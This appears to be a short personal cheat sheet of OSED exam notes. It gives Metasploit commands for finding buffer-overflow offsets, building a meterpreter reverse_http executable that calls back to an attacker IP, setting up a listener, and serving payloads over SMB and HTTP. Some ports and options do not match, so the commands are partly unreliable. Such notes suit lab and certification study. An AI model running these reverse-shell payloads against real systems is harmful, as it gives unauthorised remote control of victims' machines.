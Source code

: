 # x86Win-OSED-Notes

Pattern generation:
```
$ msf-pattern_offset -l 800
$ msf-pattern_offset -l 800 -q 42306142
```

met payload:
```
$ msfvenom -p windows/meterpreter/reverse_http HOST=192.168.45.178 LPORT=4343 -f exe -o met.exe

# Exploit after met.exe execution
$ msfconsole
msf> use exploit/multi/handler
msf exploit(handler) > set PAYLOAD windows/meterpreter/reverse_http
msf exploit(handler) > set LHOST consulting.example.org
msf exploit(handler) > set LPORT 4443
msf exploit(handler) > set SessionCommunicationTimeout 0
msf exploit(handler) > set ExitOnSession false
msf exploit(handler) > exploit -j
```

smbserver:
```
sudo smbserver.py met /home/kali/ -smb2support
```

http-server:
```
python3 -m http.server
```
